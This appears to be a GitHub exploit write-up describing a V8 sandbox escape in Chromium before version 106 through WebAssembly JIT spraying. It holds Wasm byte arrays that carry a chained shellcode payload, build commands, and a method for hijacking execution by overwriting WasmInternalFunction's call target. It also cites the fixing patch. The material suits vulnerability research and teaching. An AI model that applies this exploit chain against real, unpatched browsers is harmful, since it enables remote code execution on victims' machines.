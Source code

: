 # Escaping V8 Sandbox via WebAssembly JIT Spraying: Part 1 (Chromium < 106.0.5249.61)

In this post, I will explain how to escape V8 sandbox to get RCE via WebAssembly JIT spraying, while we have limited exploitation primitives like `addrof` and sandboxed AAR/AAW.

## Setup

- Ubuntu 22.04.5 LTS
- [cb5c1b8a1fd1eee214501ee06fdd4566886803c1](https://chromium.googlesource.com/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1) (Jul 26th, 2022)

Run [`setup.zsh`](./setup.zsh) in your working directory.
## Analysis

### WebAssembly jump table

```js
// flags: --allow-natives-syntax --shell

/*
(module
    (func (export "f1"))
    (func (export "f2"))
    (func (export "f3"))
    (func (export "f4"))
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x5, 0x4, 0x0, 0x0, 0x0, 0x0, 0x7, 0x15, 0x4, 0x2, 0x66, 0x31, 0x0, 0x0, 0x2, 0x66, 0x32, 0x0, 0x1, 0x2, 0x66, 0x33, 0x0, 0x2, 0x2, 0x66, 0x34, 0x0, 0x3, 0xa, 0xd, 0x4, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);
```

When a Wasm module is constructed, a memory region whose permission is set to RWX is allocated for compiling and executing Wasm functions.

![](img/1.png)

There is jump table at the very front of this region, which is responsible for deciding execution flow when Wasm function is called.

![](img/2.png)

Each `jmp` instruction in jump table is pointing the address of compiled code of each function in Wasm module.

The address of jump table is stored in [`WasmInstanceObject`](https://source.chromium.org/chromium/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1:src/wasm/wasm-objects.h;l=325), as [`jump_table_start`](https://source.chromium.org/chromium/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1:src/wasm/wasm-objects.h;l=360).

![](img/3.png)

![](img/4.png)

## Exploitation

### Implement exploitation primitives

We can implement sandboxed [`addrof`](./pwn.js#L7) primitive which returns address of arbitrary JavaScript object in V8 sandbox, using `Sandbox.getAddressOf`. Also, we can implement sandboxed [AAR](./pwn.js#L12)/[AAW](./pwn.js#L24) primitives which read and write value at arbitrary address in V8 sandbox, using `Sandbox.MemoryView`.

### JIT (Just-In-Time) spraying

```js
/*
(module
    (func (export "main")
        i64.const 0x4141414141414141
        i64.const 0x4242424242424242
        i64.const 0x4343434343434343
        return
    )
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0x26, 0x1, 0x24, 0x0, 0x42, 0xc1, 0x82, 0x85, 0x8a, 0x94, 0xa8, 0xd0, 0xa0, 0xc1, 0x0, 0x42, 0xc2, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0xa1, 0xc2, 0x0, 0x42, 0xc3, 0x86, 0x8d, 0x9a, 0xb4, 0xe8, 0xd0, 0xa1, 0xc3, 0x0, 0xf, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);

let wasm_instance = new WebAssembly.Instance(wasm_module);
% DebugPrint(wasm_instance);
```

![](img/5.png)

`main()` in `wasm_module` is a function which loads 64-bit constants. These constants are inserted to compiled code as raw numbers. It means that we can insert arbitrary 8-byte constants to executable code region. If we move `rip` to the address of any constant, it will act like an 8-byte shellcode.

### Construct shellcode chain

With just 8-byte shellcode, we won't be able to do what we want to do. Instead, we can chain several short shellcodes using `jmp` instruction.

[`shellcode.py`](./shellcode.py)

![](img/6.png)

![](img/7.png)

If `main()` loads the same number twice, the second is not inserted to compiled code. Then, chain is broken and shellcode doesn't work. Therefore, we should slightly change the order of instructions or move the position of `nop` instructions to make sure that all numbers are different. In addition, we should consider that the distance between shellcodes is changed from the middle because the code which backs registers up to stack is inserted if all registers are in use.

[`pwn.wat`](./pwn.wat) [`wasm.py`](./wasm.py)

```zsh
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
python3 wasm.py # output: [0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0xb1, 0x1, 0x1, 0xae, 0x1, 0x0, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xb2, 0x9b, 0x86, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0xdf, 0xe0, 0x9b, 0x96, 0x8c, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0xbc, 0x91, 0x96, 0xcd, 0xdb, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0xbc, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xd8, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0x90, 0x91, 0xc5, 0x81, 0x8c, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xea, 0x81, 0x83, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0x99, 0x85, 0xca, 0xd5, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x90, 0x91, 0x85, 0x86, 0x8e, 0x84, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x8a, 0x90, 0xca, 0xb4, 0x8a, 0xd4, 0xf5, 0x6, 0x42, 0xd0, 0x90, 0xa5, 0x84, 0x8e, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0xec, 0x9e, 0x85, 0x8a, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x92, 0x8a, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0xbb, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x8f, 0x8a, 0xc0, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0x7f, 0xf, 0xb]
```

### Hijack execution flow

When Wasm function is called, we can see following execution flow:

![](img/8.png)

![](img/9.png)

![](img/10.png)

`WasmInternalFunction` object is inside of V8 sandbox, so we can overwrite its call target using sandboxed AAW primitive and control `rip`.

[`pwn.js`](./pwn.js)

![](img/11.png)

## Patch

> [[sandbox] Refactor and sandboxify WasmInternalFunction::call_target](https://chromium.googlesource.com/v8/v8/+/2eb73988a37a60520a0f8e0b1109edbcc0b91415) (Jul 26th, 2022)
> 
> This CL refactors WasmInternalFunction to no longer inherit from Foreign but instead contain a (sandboxed) ExternalPointer field for the call target.
